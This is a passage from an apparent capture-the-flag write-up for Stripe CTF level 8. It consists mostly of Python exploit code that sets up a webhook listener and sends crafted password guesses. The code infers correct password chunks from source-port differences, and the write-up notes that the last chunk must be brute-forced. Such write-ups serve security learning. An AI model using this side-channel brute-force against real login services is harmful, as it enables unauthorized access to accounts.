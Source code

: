 ``` python
        data = client.recv(1024)
        if data == "0\r\n\r\n": break
    source_port1 = client.getsockname()[1]
    client.close()
    conn, addr = server.accept()
    conn.send("HTTP/1.0 200 OK\r\n")
    conn.close()
    return addr[1]


HOST = 'level08-1.stripe-ctf.com'
PORT = 443
HOST2 = 'level02-2.stripe-ctf.com'
PORT2 = 12455
server =  socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('0.0.0.0', PORT2))
server.listen(1)
guess = ""
for chunk in range(3):
    if chunk == 0:
        start = 128
    else:
        start = 0
    for i in range(start,1000):
        chunk_guess = str(i).zfill(3)
        message = '{"password": "' + guess + chunk_guess + 'X'*(12 - len(guess+chunk_guess)) + '", "webhooks": ["level02-2.stripe-ctf.com:12455"]}'
        request = 'POST /user-umqrrcvswp/ HTTP/1.1\r\nUser-Agent: curl/7.21.4 (universal-apple-darwin11.0) libcurl/7.21.4 OpenSSL/0.9.8r zlib/1.2.5\r\nHost: level08-1.stripe-ctf.com\r\nAccept: */*\r\nContent-Length: '+ str(len(message)) + '\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n' + message
        print "Guessing (chunk " + str(chunk) + ") :" + chunk_guess
        correct = True
        for i in range(5): #fucking network jitter
            diff = make_guess(request)
            print diff
            if diff == chunk+2:
                correct = False
                break
            else:
                print "just in case lets sleep"
                time.sleep(5)
        if correct:
            print "Got Chunk:", chunk_guess
            guess += chunk_guess
            break

print "Got 3/4ths of password:", guess
```

The above code gets the first 3 chunks.  Any password guess that has the first 9 digits correct will have to query the 4th chunk server, so there is no difference in source ports between correct and incorrect guesses after the first 9 digits are correct.  The rest of the password has to be bruteforced directly:
